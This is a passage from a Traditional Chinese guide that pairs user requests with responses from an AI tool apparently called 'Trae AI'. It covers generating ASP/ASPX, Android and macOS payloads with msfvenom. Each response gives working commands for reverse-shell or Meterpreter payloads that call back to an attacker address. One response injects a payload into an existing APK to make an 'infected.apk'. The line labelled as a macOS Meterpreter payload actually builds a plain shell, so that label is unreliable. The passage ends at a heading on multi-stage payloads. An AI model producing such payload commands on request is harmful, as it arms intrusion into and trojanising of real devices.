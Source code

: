 ### 8. ASP/ASPX Payload 生成

**用戶提問：**
```
為 IIS 服務器生成 ASP.NET payload
```

**Trae AI 操作流程：**
```
# ASP payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f asp -o payload.asp

# ASPX payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f aspx -o payload.aspx
```

## 移動平台 Payload

### 9. Android Payload 生成

**用戶提問：**
```
為 Android 設備生成 APK payload
```

**Trae AI 操作流程：**
```
# 基本 Android Meterpreter
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o payload.apk

# 嵌入到現有 APK 中
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x original.apk -o infected.apk
```

### 10. macOS Payload 生成

**用戶提問：**
```
為 macOS 系統生成 payload
```

**Trae AI 操作流程：**
```
# macOS shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho -o payload_osx

# macOS Meterpreter
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho -o meterpreter_osx
```

## 高級 Payload 技術

### 11. 多階段 Payload
